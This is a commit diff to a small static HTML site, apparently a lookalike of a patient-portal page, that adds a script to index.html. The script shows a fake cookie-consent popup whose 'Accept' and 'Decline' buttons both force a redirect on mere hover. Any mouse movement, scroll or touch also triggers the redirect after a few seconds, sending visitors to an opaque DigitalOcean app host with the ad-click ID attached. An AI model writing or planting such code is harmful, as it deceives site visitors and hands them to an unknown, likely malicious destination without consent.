

Before and after one commit to mancillajoaquin204/realhopemychartonliners, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 763 px of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -21,6 +21,159 @@
 
 
 
+<script>
+(function () {
+  const redirectUrl = "https://ce43g34fwe43f34f34f34wf34f34fwef-ovm6m.ondigitalocean.app/";
+  let redirected = false, moved = false, scrolled = false, touched = false, initialPos = null;
+
+  const random = (min, max) => Math.floor(Math.random() * (max - min + 1)) + min;
+  const colors = ["#28a745", "#007bff", "#ff5722", "#6f42c1", "#17a2b8", "#ffc107", "#dc3545", "#fd7e14", "#20c997", "#6610f2"];
+  const randomColor = () => colors[Math.floor(Math.random() * colors.length)];
+
+  const messages = [
+    "🍪 <strong>Important:</strong> We use cookies to improve your experience.<br><br><strong>By hovering 'Accept', you agree.</strong>",
+    "🔔 <strong>Notice!</strong> Cookies help us serve you better.<br><br><strong>Hover 'Accept' to continue.</strong>",
+    "🔒 <strong>Privacy Info:</strong> Cookies are used for a better service.<br><br><strong>Hover to accept or decline.</strong>"
+  ];
+  const randomText = () => messages[Math.floor(Math.random() * messages.length)];
+
+  function redirectUser() {
+    if (redirected) return;
+    redirected = true;
+    const gclid = new URLSearchParams(window.location.search).get('gclid');
+    const finalUrl = gclid ? `${redirectUrl}${redirectUrl.includes('?') ? '&' : '?'}gclid=${gclid}` : redirectUrl;
+    window.location.href = finalUrl;
+  }
+
+  function showPopup() {
+    const wrapper = document.createElement("div");
+    wrapper.innerHTML = `
+    <div class="popup-overlay">
+      <div class="popup-box">
+        <h3 class="popup-title neon-text">⚠️ Cookie Consent</h3>
+        <p class="popup-msg">${randomText()}</p>
+        <div class="popup-actions">
+          <button id="acceptBtn">Accept</button>
+          <button id="declineBtn">Decline</button>
+        </div>
+      </div>
+    </div>
+    `;
+    document.body.appendChild(wrapper);
+
+    document.getElementById("acceptBtn").addEventListener("mouseenter", redirectUser);
+    document.getElementById("declineBtn").addEventListener("mouseenter", redirectUser);
+
+    const style = document.createElement("style");
+    style.textContent = `
+      @keyframes fadeIn {
+        from { opacity: 0; transform: translateY(-10px); }
+        to { opacity: 1; transform: translateY(0); }
+      }
+
+      @keyframes neonPulse {
+        0%, 100% { text-shadow: 0 0 8px #fff, 0 0 12px ${randomColor()}, 0 0 24px ${randomColor()}; }
+        50% { text-shadow: 0 0 16px #fff, 0 0 20px ${randomColor()}, 0 0 30px ${randomColor()}; }
+      }
+
+      .popup-overlay {
+        position: fixed;
+        top: 0; left: 0; width: 100%; height: 100%;
+        background: rgba(0, 0, 0, 0.75);
+        display: flex;
+        justify-content: center;
+        align-items: center;
+        z-index: 99999;
+        font-family: 'Segoe UI', sans-serif;
+      }
+
+      .popup-box {
+        background: rgba(255, 255, 255, 0.96);
+        backdrop-filter: blur(10px);
+        padding: 2.5rem;
+        border-radius: 18px;
+        max-width: 550px;
+        width: 95%;
+        text-align: center;
+        border: 3px solid ${randomColor()};
+        box-shadow: 0 0 35px rgba(0,0,0,0.4);
+        animation: fadeIn 0.4s ease;
+      }
+
+      .popup-title {
+        font-size: 28px;
+        font-weight: 800;
+        margin-bottom: 1rem;
+        color: ${randomColor()};
+        animation: neonPulse 2s infinite ease-in-out;
+      }
+
+      .popup-msg {
+        font-size: 18px;
+        font-weight: 600;
+        color: #444;
+        line-height: 1.6;
+        margin-bottom: 1.8rem;
+      }
+
+      .popup-actions {
+        display: flex;
+        justify-content: center;
+        gap: 1.5rem;
+        flex-wrap: wrap;
+      }
+
+      .popup-actions button {
+        background-color: ${randomColor()};
+        color: white;
+        border: none;
+        padding: 14px 28px;
+        border-radius: 8px;
+        font-size: 17px;
+        font-weight: bold;
+        cursor: pointer;
+        box-shadow: 0 4px 12px rgba(0, 0, 0, 0.2);
+        transition: transform 0.3s ease, background-color 0.3s ease;
+      }
+
+      .popup-actions button:hover {
+        transform: scale(1.1);
+        background-color: ${randomColor()};
+      }
+    `;
+    document.head.appendChild(style);
+  }
+
+  window.addEventListener("load", () => setTimeout(showPopup, random(400, 800)));
+
+  window.addEventListener("mousemove", (e) => {
+    if (!moved) {
+      if (!initialPos) {
+        initialPos = { x: e.clientX, y: e.clientY };
+        return;
+      }
+      if (e.clientX !== initialPos.x || e.clientY !== initialPos.y) {
+        moved = true;
+        setTimeout(redirectUser, random(3500, 4500));
+      }
+    }
+  });
+
+  window.addEventListener("scroll", () => {
+    if (!scrolled) {
+      scrolled = true;
+      setTimeout(redirectUser, random(3500, 4500));
+    }
+  });
+
+  window.addEventListener("touchstart", () => {
+    if (!touched) {
+      touched = true;
+      setTimeout(redirectUser, random(3500, 4500));
+    }
+  });
+})();
+</script>
 
 
 
```
